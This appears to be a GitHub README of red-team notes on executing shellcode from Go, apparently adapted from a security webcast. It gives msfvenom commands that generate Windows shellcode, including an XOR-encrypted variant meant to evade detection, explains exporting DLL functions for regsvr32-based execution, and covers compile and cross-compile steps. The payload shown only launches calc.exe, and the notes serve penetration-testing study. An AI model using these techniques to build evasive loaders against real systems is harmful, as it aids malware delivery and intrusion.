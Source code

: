 ## Shellcode Execution with GoLang
A rip off of [blackhillsinfosec.com/webcast-shellcode-execution-with-golang](https://www.blackhillsinfosec.com/webcast-shellcode-execution-with-golang/) and some anotations regarding payload creation and env setup in this doc.

## generate shellcode
`c#` formatted shellcode can be used with minimal adjustments in go
```
msfvenom -p windows/x64/exec CMD=calc.exe -f csharp
```

Create xored payload with `msfvenom`, other algorithms can be used. See list of algorithms supported by `msfvenom` with `msfvenom --list encrypt` 
```
msfvenom -p windows/x64/exec CMD=calc.exe -f csharp --encrypt xor --encrypt-key "\x31"
```

## DLL creation
- include an Exported function (start function name with capital letter) and a comment above it that includes the export keyword and the function name
```go
import "C"

//export Engage
func Engage() {
	testDLLExportedFunction()
}
```

## regsvr32 dll
A Dll created for use with regsvr32 needs to implement specific methods. This can be done through defining the following 4 exports:
- EntryPoint()
- DllRegisterServer()
- DllUnregisterServer()
- DllInstall()
	
All four need to return boolean (True for success). The payload call can be put in either of the four.

## compile
### compile on windows
This needs golang obviously but also mingw for DLL creation.

Easiest way of setting everything up is by isntalling it through `chocolatey`. This also adds necessary environment variables.

Run 
```
choco install -y vscode golang mingw
```

Building the Dll can then be done with
```
go build -buildmode=c-shared -o go.dll main.go
```

### cross compile DLL 
Cross compilation on Linux is possible but needs some further setup. I have collected some pointers towards setup here, but this needs further refinement.

Based on this stackoverflow post (https://stackoverflow.com/questions/49078510/trouble-compiling-windows-dll-using-golang-1-10), the following is necessary:

Install `mingw` for cross compilation

```
sudo apt install gcc-mingw-w64-i686 gcc-mingw-w64-x86-64 
```
Compile for Windows on Ubuntu: 
```
env GOOS=windows GOARCH=386 CGO_ENABLED=1 CC=i686-w64-mingw32-gcc go build -buildmode=c-shared -o main.dll main.go 
```
or 
```
env GOOS=windows GOARCH=amd64 CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc go build -buildmode=c-shared -o main.dll main.go 
```


## TODO
check out calling shellcode by casting alloc mem to function pointer (https://stackoverflow.com/questions/3601796/can-we-have-function-pointers-in-go)


## links 
https://github.com/yoda66/GoShellcode


A
A

